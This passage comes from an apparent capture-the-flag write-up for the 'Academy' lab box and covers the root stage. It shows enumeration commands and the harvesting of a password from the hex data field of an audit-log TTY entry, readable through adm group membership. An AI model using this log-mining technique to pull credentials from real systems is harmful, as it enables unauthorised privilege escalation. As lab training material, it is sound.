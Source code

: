 ## Root flag

Now running as cry0l1t3, we can enumerate further this box. The first thing to do is to check his permissions. The user `cry0l1t3` cannot run anything as root, based on `sudo -l` execution but he is a member of **adm** group, which allows us to read contents from `/var/log` which might leak some information.

```bash
cry0l1t3@academy:~$ sudo -l
[sudo] password for cry0l1t3: 
Sorry, user cry0l1t3 may not run sudo on academy.
cry0l1t3@academy:~$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

Always when inspecting the logs from a CTF box, is important to consider its creation time, so all the other player registry entries can be ignored from the inspection. An easier way is to use the command below, which filters only files older than X days, in my case 100 which is the number of days since this box was released at the moment I am solving it.

```bash
find /var/log -mtime +100 -print 2>/dev/null
```

Checking first the apache logs, nothing interesting was found by inspecting the access logs, so the most interesting in sequence are the audit logs and then any cron execution.

Checking the audit logs, we can see 2 files matching the mentioned period, which will later be inspected.

```bash
cry0l1t3@academy:~$ find . -mtime +100 -print 2>/dev/null | grep audit
/var/log/audit/audit.log.2
/var/log/audit/audit.log.3
```

Looking for interesting commands on then (`sudo`, `su`, `passwd`) that could possibly leak some information, I was lucky to find one occurrence of **su**:

```bash
cry0l1t3@academy:~$ cat /var/log/audit/audit.log.[2-3] | grep '"su"'
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

The data field contains the HEX value of the parameter used in the execution, which can be converted to text. You can use any converter online, but you can also use `vim` for this task, as described below:

- Open a file in edit mode using `vim`

```bash
vim /tmp/test
```

- Type `Esc` to enter em command mode and enter the command `:% !xxd`. This will convert the existing content into HEX
